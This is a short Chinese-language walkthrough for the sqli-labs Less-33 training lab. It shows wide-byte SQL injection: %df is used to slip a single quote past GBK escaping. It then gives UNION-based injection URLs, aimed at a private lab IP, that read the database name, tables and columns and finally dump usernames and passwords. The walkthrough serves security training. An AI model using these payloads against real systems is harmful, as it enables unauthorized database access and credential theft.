

# Less - 33

---

# 通关教程

---

## 1、判断闭合

---

查看一下源码，发现也是用了gbk编码

​​

在单引号前面输入%df即可让单引号成功逃逸

```http
http://192.168.225.132/sqli-labs/Less-33/?id=1%df'
```

​​

---

## 2、查看当前库

---

```http
http://192.168.225.132/sqli-labs/Less-33/?id=-1%df' union select 1,2,database()--+
```

​​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-33/?id=-1%df' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

​​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-33/?id=-1%df' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)--+
```

​​

---

## 5、查看username,password字段下的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-33/?id=-1%df' union select 1,2,(select group_concat(username,password) from security.users)--+
```

​​

‍

---
